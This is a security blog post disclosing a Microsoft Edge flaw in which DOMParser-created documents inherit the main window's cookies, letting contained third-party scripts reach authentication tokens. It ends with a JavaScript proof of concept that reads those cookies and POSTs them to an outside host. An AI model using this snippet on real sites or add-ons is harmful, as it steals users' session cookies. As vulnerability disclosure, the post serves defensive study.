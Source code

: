 ```yaml
---
layout: post
title: Microsoft Edge Cookie Bypass
---
```


<img src="{{ site.baseurl }}/assets/2018-7-24/edge.jpg" alt="edge"/>

### Overview
Recently I stumbled across a security vulnerability in Microsoft Edge browser caused by an improper implementation of the official DOM specifications. This implementation issue was caused by an incorrectly defined inheritance chain between the main window document and HTMLDocument type objects created by the DOMParser API.

### Technical Background
After reading through dozens of commits from several Chrome and FireFox members on the Whatwg GitHub repositories, I have come to the conclusion that the official spec for document has been in flux for the past few years and Microsoft has struggled to keep up with the changes. 

Before diving into the exploit, here is a quick overview of how the DOM's implementation of document SHOULD work:

"document" has migrated from a class to an abstract interface, and should not be instantiated directly. There is still a constructor for creating document objects from the document in some browsers, but it is now deprecated. 

Rather than creating "document" objects, document is now an interface defining how document-style objects should appear and behave. All instantiated document objects should be from the classes XMLDocument or HTMLDocument. Both of whom look very similar except for a few properties and different algorithms under the hood. In a prior world another document class called SVGDocument existed, but SVG document has been merged with XMLDocument as SVG is a subset of XML and maintaining one XML document class is much easier since XML presents a large security risk as-is. The main window document in all browsers is now an HTMLDocument by the way. Safari still seems to have a global called SVGDocument but further analysis shows it is simply an alias for XMLDocument.

As document is now an abstract interface, XMLDocument and HTMLdocument must inherit their properties and methods from document. The state should NOT be inherited however. 

### Exploit
A little-known browser API, DOMParser() allows the creation of document objects when provided a string and mime-type as the input.

DOMParser() documentation is shaky, with MDN having a version about two years old from what I can see from Git commits. It's generally a lesser-used API, and it's really a big security risk with similar exploits to Blob() due to it's reliance on raw input data.

Providing the DOMParser() with an HTML type input produces a document of type HTMLDocument. This document is independent of the main window document, and should not inherit any properties from the main window document. 

However, in Microsoft Edge - main window document cookies are inherited. I've attempted to reproduce on Chrome and FireFox as well. Chrome fixed the issue before I even found it, and it seems to have never existed in FireFox. 

This is important, because it can be used as a bypass on almost any web-based app store. For example, the Slack app exchange attempts to containerize JavaScript from third-party developers in your Slack instance so that it cannot leach information from your conversations and send it back to it's own servers. With this bypass, any information stored in the main window cookies is accessable to a third party script even though the addon-app has been contained and does not have direct access to the main window cookies. 

I have tried this on a number of web based app-exchanges and sites that allow custom HTML/CSS/JS customization and all have been successful at accessing the cookies on Edge - often taking the authentication tokens with it.

Here is a proof of concept exploit:

```javascript
var parser = new DOMParser();
var html = parser.parseFromString('', 'text/html');
var cookies = html.cookie;
var http = new XMLHttpRequest();
var url = 'http://www.save-the-cookies.com';
var params = `cookies=${JSON.stringify(cookies)}`;
http.open('POST', url, true);
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
http.onreadystatechange = function() {
    if(http.readyState == 4 && http.status == 200) {
        alert('I stole your cookies!');
    }
}
http.send(params);
```

I reached out to the Edge team last month and was informed this has been backlogged and may be fixed in a "future release". 